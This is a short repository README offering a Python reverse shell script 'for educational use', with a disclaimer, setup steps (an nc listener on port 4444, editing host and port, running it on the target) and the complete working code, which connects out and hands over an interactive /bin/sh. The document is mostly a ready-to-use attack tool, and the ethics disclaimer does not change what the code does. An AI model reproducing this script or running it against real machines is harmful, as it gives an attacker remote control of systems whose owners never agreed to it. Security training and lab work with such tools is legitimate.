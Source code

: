 # Python Reverse Shell Demo

This repository contains a simple **Python reverse shell** script for educational and ethical cybersecurity training purposes. 

## ⚠️ Disclaimer
This code is for **educational use only**. Use it strictly in safe, legal training environments (like labs, demos, or pen-testing with permission). Unauthorized or malicious use is strictly prohibited.

## How It Works
- The script connects to a remote server (listener) and provides shell access.
- Useful for demonstrating reverse shell concepts, red-team training, and cybersecurity classes.

## Usage
1. **Start a listener** on your machine (e.g., `nc -lvp 4444`).
2. **Edit `host`/`port` in the script** to your listener IP/port.
3. **Run the script** on the target (training) machine.

```python
# Educational Python Reverse Shell
# For cybersecurity training only
import socket,subprocess,os
host = '127.0.0.1'  # Change to your listener IP
port = 4444         # Change to your listener port
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((host,port))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p = subprocess.call(['/bin/sh','-i'])
```

---
**Ethical hacking and cybersecurity education only!**
